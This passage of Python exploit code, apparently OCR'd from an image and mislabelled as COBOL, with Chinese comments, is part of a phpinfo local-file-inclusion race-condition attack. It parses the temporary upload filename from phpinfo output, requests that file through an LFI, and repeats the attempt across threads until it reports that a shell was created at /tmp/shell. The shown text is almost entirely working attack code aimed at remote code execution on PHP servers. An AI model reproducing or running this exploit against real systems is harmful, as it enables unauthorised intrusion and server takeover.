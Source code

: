 ```cobol
        i = d.index(b"[tmp_name] =&gt; ")
        fn = d[i + 17:i + 31]
    except ValueError:
        return None
 
    s2.send((lfireq % (fn.decode(), host)).encode())
    d = s2.recv(4096)
    s.close()
    s2.close()
 
    if d.find(tag.encode()) != -1:
        return fn.decode()
 
 
counter = 0
 
 
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args
 
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter += 1
 
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print("\n成功！Shell已创建在 /tmp/shell")
                    self.event.set()
 
            except socket.error:
                return
 
 
def getOffset(host, port, phpinforeq):
    """获取php输出中tmp_name的偏移量"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(phpinforeq.encode())
 
    d = b""
    while True:
        i = s.recv(4096)
        d += i
        if i == b"":
            break
        # detect the final chunk
        if i.endswith(b"0\r\n\r\n"):
            break
    s.close()
    i = d.find(b"[tmp_name] =&gt; ")
    if i == -1:
```